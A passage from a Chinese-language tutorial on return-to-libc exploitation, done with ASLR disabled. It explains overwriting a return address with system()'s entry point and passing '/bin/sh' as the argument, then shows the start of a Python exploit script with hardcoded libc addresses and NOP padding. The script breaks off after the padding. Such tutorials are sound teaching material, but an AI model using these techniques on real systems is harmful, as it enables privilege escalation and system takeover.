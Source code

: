 ![ldd](./1489160105208.png)

几乎所有的程序在运行时都会加载`libc.so`，或者是在编译时进行静态链接。因此只要能够调用libc中的system函数和exec类函数，就能够夺取系统权限。

例子（关闭ASLR实验）

![Alt text](./1489160347008.png)

得到system和exit的地址。
这次就不需要将返回地址改成位于栈中的shellcode地址，而是改成system函数的入口地址，将system函数的返回目标设为exit，并将`/bin/sh`的地址作为参数传递过去。

```python
#!/usr/bin/python

import sys
from struct import *

if len(sys.argv) != 2:
	addr = 0x41414141
else:
	addr = int(sys.argv[1], 16) + 0x08

fsystem = int("b7e6c430", 16)
fexit   = int("b7e5ffb0", 16)

data  = "\x90\x90\x90\x90\x90\x90\x90\x90"
data += "\x90\x90\x90\x90\x90\x90\x90\x90"
data += "\x90\x90\x90\x90\x90\x90\x90\x90"
```